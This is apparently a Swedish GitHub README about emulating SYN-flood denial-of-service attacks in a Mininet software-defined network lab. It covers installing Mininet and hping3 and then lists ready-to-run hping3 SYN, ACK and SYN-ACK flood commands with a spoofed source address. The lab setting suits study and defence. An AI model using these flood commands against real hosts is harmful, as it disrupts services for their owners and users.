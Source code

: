 # SYN-FLOOD-DOS-ATTACKER-I-SDN
Detta reposetory är en guide till installationen av mininet och dokumentation av olika attack typer.

## Installation av mininet i UBUNTU

Först insatalera vi mininet genom sudo `apt-get install mininet`.

Sedan ladda vi ner github `sudo apt-get install git`.

Vi clona mininet github `git clone git://github.com/mininet/mininet`.

I mininet hitta `git tag`.

Kopiera tag.

Skapa en ny gren `git checkout -b "tag"`.

Ladda ned python och andra verktyg för mininet `mininet/util/install.sh -a`.

Lägg till din linux distributiuon, den finns på topen när du ladar ner `mininet/util/install.sh -a "din linux distributiuon"`.

## Starta mininet

För att starta en simpel mininet skriver du `sudo mn` det ger den en kontroller en switch och två host.

För att köra vår typ kör en av våra python skripter.

## Installation av hping3

Ladda ner hping3 med `sudo apt-get install hping3`

## hping3 attack-kommandon

SYN-flood attack `hping3 "host2 ip-address" --syn --flood -a 10.0.0.13`.

ACK-flood attack `hping3 "host2 ip-address" --ack --flood -a 10.0.0.13`

SYN-ACK-flood attack `hping3 "host2 ip-address" --syn --ack --flood -a 10.0.0.13`

## SSH daemon
För att köra en ssh på en host skriver du `sudo ~/mininet/examples/sshd.py`.

Nu kan du ssh från en annan terminal till en host `ssh "IP-adress"`